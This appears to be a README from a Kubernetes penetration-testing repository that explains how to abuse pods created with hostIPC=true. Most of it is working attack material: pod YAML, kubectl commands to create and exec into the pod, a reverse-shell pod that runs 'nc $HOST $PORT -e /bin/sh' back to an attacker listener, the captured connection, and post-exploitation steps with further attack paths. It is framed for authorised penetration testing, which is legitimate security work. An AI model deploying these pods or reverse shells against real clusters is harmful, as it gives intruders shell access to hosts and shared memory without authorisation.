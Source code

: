 ## You can create a pod with only hostIPC

If you only have `hostIPC=true`, you most likely can't do much. What you should do is use the `ipcs` command inside your hostIPC container to see if there are any ipc resources (shared memory segments, message queues, or semaphores). If you find one, you will likely need to create a program that can read them. 

# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostipc
  labels:
    app: pentest
spec:
  hostIPC: true
  containers:
  - image: ubuntu
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
    name: hostipc
  # Force scheduling of your pod on master mode by uncommenting this line and changing the name
  #nodeName: k8s-master
  ```
[pod-hostipc-only.yaml](pod-hostipc-only.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f pod-hostipc-only.yaml   
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/hostipc-only/pod-hostipc-only.yaml  
```

### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-hostipc-only -- bash
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostipc-revshell
  labels:
    app: pentest
spec:
  hostIPC: true
  containers:
  - image: busybox
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]
    name: hostipc--revshell
  # Force scheduling of your pod on master mode by uncommenting this line and changing the name
  #nodeName: k8s-master
```
[pod-hostipc-only-revshell.yaml](pod-hostipc-only-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" 
envsubst < ./yaml/hostipc-only/pod-hostipc-only-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

# Post exploitation 
#### Look for any use of inter-process communication on the host 
```bash
ipcs -a
```

Reference: https://opensource.com/article/20/1/inter-process-communication-linux



#### Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test.

